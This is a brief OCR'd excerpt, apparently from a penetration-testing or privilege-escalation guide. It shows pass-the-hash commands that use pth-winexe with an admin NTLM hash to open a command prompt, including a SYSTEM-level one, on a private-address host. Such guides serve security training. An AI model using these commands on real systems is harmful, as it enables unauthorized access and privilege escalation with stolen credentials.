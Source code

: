 
We can also use pth-winexe for same pupose as winexe. But instaead of password we are using the hash itself

```
pth-winexe -U
'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c
4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
```


Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```

 pth-winexe --system -U
'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c
4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe

```

